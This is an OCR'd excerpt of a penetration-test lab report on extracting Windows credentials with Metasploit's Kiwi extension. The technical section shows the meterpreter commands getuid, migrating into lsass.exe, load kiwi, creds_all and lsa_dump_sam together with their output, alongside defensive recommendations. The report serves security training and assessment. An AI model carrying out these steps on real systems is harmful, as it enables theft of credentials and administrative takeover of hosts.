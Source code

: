 ```markdown
3. `creds_all` - Comprehensive credential extraction
4. `lsa_dump_sam` - SAM database dump
5. `lsa_dump_secrets` - LSA secrets extraction

### Evidence Files:
- Screenshot of successful credential extraction
- NTLM hashes documented for offline cracking
- System information captured for environment analysis

### Risk Level: CRITICAL
**Impact:** Complete credential compromise with administrative access
**Recommendation:** Implement credential guard, disable WDigest, monitor LSASS access
```

### **Detailed Technical Report:**
```markdown
## Advanced Credential Harvesting Assessment

### Executive Summary:
Successfully extracted all stored credentials from target Windows system using Kiwi extension within Metasploit framework. Identified critical security weaknesses in credential storage and system hardening.

### Technical Details:

#### Environment Preparation:
```bash
# Initial access verification
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

# System reconnaissance
meterpreter > sysinfo
Computer        : ATTACKDEFENSE
OS              : Windows Server 2016+ (10.0 Build 14393)
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows

# Process migration for stability
meterpreter > migrate -N lsass.exe
[*] Migrating from 4920 to 596...
[+] Migration completed successfully.
```

#### Credential Extraction Process:
```bash
# Extension loading
meterpreter > load kiwi
Loading extension kiwi...
Success.

# Comprehensive credential dump
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials

# Database extraction
meterpreter > lsa_dump_sam
[+] Running as SYSTEM
[*] Dumping SAM
Domain : ATTACKDEFENSE
```